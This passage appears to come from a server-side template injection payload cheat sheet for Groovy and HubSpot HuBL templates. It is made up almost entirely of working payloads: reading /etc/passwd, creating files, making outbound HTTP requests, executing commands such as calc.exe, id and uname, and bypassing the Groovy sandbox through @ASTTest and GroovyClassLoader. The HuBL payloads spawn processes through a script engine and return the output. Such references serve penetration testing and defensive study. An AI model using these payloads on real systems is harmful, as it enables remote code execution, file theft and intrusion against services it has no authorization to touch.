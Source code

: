 #### Groovy

Read file

```java
${String x = new File('/etc/passwd').getText('UTF-8')}
```

Create file

```java
${String x = new File('C:/Temp/pwned.txt').text}

${new File("C:\Temp\pwned.txt").createNewFile();}
```

HTTP Request

```java
${"http://www.google.com".toURL().text}

${new URL("http://www.google.com").getText()}
```

Command execution

```java
${"calc.exe".exec()}

${"calc.exe".execute()}

${this.evaluate("9*9") //(this is a Script class)}

${new org.codehaus.groovy.runtime.MethodClosure("calc.exe","execute").call()}
```

##### Groovy - Sandbox Bypass

```java
${ @ASTTest(value={assert java.lang.Runtime.getRuntime().exec("id")})
def x }

${ new groovy.lang.GroovyClassLoader().parseClass("@groovy.transform.ASTTest(value={assert java.lang.Runtime.getRuntime().exec(\"calc.exe\")})def x") }
```

#### Hubspot - HuBL

Command execution

```java
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"id\\\"); x.start()\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"id\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
```
